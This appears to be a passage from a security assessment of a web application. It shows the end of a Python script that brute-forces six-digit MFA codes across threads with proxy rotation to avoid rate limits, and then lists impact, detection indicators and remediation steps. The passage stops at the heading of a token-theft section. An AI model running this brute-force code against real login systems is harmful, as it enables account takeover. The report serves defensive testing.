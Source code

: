 ```python
    for code in range(1000000):
        code_queue.put(f"{code:06d}")
    
    # Distribute work across threads with proxy rotation
    with ThreadPoolExecutor(max_workers=MAX_WORKERS) as executor:
        futures = []
        proxy_cycle = itertools.cycle(PROXIES)
        
        while not code_queue.empty():
            code = code_queue.get()
            proxy = next(proxy_cycle)
            future = executor.submit(test_mfa_code, code, proxy)
            futures.append(future)
            
            # Check for success
            for future in as_completed(futures):
                if future.result():
                    print("Attack successful! Terminating...")
                    executor.shutdown(wait=False)
                    return

if __name__ == "__main__":
    main()
```

#### Success Criteria
- No rate limiting triggers
- No account lockout occurs
- MFA verification window is wide (±5 windows = 10 valid codes per timestamp)

#### Impact Assessment
- **Confidentiality:** Complete breach - access all admin functions
- **Integrity:** Can modify any user data, grant credits, impersonate users
- **Availability:** Can delete comics, disable user accounts
- **Financial:** Unlimited credit grants, refund manipulation

#### Detection Indicators
- Rapid sequential requests from single IP
- High volume of 401 responses to admin endpoints
- Same user_id with multiple failed MFA attempts

#### Remediation
- Implement rate limiting: 5 attempts per 15 minutes
- Add progressive delays after failures
- Temporary account lockout after 5 failures
- Send email alerts on MFA failures
- Use CAPTCHA after 2 failed attempts

---

### Attack 1.2: Service Token Theft
**Attack Vector:** Server-Side  
**Complexity:** Medium  
**Impact:** Critical  
**MITRE ATT&CK:** T1552.001 (Credentials in Files)
